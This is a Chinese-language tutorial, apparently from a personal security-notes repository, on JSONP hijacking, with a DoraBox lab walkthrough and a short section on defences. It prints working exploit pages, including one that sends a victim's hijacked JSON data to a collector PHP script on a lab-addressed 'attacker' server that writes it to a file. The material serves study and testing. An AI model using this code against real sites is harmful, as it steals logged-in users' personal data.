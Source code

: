 # JSONP描述

Jsonp(JSON with Padding) 是 json 的一种"使用模式"，可以让网页从别的域名（网站）那获取资料，即跨域读取数据。

为什么我们从不同的域（网站）访问数据需要一个特殊的技术(JSONP )呢？这是因为同源策略，同源策略，它是由 Netscape 提出的一个著名的安全策略，现在所有支持 JavaScript 的浏览器都会使用这个策略。传入 callback 值会在结果里面直接返回。因此，如果该参数过滤不严格。可以随便输入：callback 值为：alert('1');parseResponse 字符串，返回结果会打印个 alert 窗口，然后也会正常执行。

**攻击者模拟用户向有漏洞的服务器发送 JSONP 请求，然后就获取到了用户的某些信息，再将这些信息发送到攻击者可控的服务**

# JSONP原理

JSONP 的最基本的原理是：动态添加一个`< script >` 标签，而 script 标签的 src 属性是没有跨域的限制的。由于同源策略的限制，XmlHttpRequest 只允许请求当前源(域名、协议、端口都相同)的资源，如果要进行跨域请求， 我们可以通过使用 html 的 script 标记来进行跨域请求，并在响应中返回要执行的script 代码，其中可以直接使用 JSON 传递 javascript 对象。

考虑这样一种情况，存在两个网站 A 和 B，用户在网站 B 上注册并且填写了自己的用户名，手机号，身份证号等信息，并且网站 B 存在一个 jsonp 接口，用户在访问网站 B 的时候。这个 jsonp 接口会返回用户的个人信息，并在网站 B 的 html 页面上进行显示。如果网站 B 对此 jsonp 接口的来源验证存在漏洞，那么当用户访问网站 A 时，网站 A 便可以利用此漏洞进行 JSONP 劫持来获取用户的信息。

<img src="图片\Snipaste_2023-03-17_17-14-39.png" alt="Snipaste_2023-03-17_17-14-39" style="zoom:67%;" />

# 攻击方法

攻击方法与 csrf 类似，都是需要用户登录帐号，身份认证还没有被消除的情况下**被诱导**访问攻击者精心设计好的的页面。就会获取 json 数据，把 json 数据发送给攻击者。寻找敏感 json 数据 api 接口，构造恶意的代码。发送给用户，用户访问有恶意的页面，数据会被劫持发送到远程服务器。

# 案例

DoraBox 靶场

<img src="图片\Snipaste_2023-03-17_17-18-09.png" alt="Snipaste_2023-03-17_17-18-09" style="zoom:80%;" />

## 简单测试

测试代码：

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>JSONP劫持测试</title>
</head>
<body>
<script type="text/javascript">
function test(result)
        {
            alert(result.address);
        }
</script>
<script type="text/javascript" src="http://127.0.0.1:8081/dorabox/csrf/jsonp.php?callback=test"></script>
</body>
</html>
```

点击后触发

<img src="图片\Snipaste_2023-03-17_17-24-18.png" alt="Snipaste_2023-03-17_17-24-18" style="zoom:80%;" />

## 进阶利用

`jsonp.html` ，构造 jsonp 劫持代码：

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title></title>
<script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
<script>
function test(data){
//alert(v.name);
var xmlhttp = new XMLHttpRequest();
var url = "http://127.0.0.1:8081/jsonp-get.php?file=" + JSON.stringify(data);
xmlhttp.open("GET",url,true);
xmlhttp.send();
}
</script>
<script src="http://127.0.0.1:8081/dorabox/csrf/jsonp.php?callback=test"></script>
</head>
<body>
</body>
</html>
```

`jsonp-get.php` 远程文件写入代码:

```php
<?php
if($_GET['file']){
file_put_contents('json.txt',$_GET['file']);
}
?>
```

诱导受害者访问 jsonp.html 时，触发黑客服务器上的 `jsonp-get.php` 代码于是生成了 `json.txt` 文件，json.txt 里写入了受害者敏感信息

<img src="图片\Snipaste_2023-03-17_17-34-26.png" alt="Snipaste_2023-03-17_17-34-26" style="zoom:80%;" />

# jsonp 防御方案

json 正确的 http 头输出尽量避免跨域的数据传输，对于同域的数据传输使用 xmlhttp 的方式作为数据获取的方式，依赖于 javascript 在浏览器域里的安全性保护数据，如果是跨域的数据传输，必须要对敏感的数据获取做权限认证。

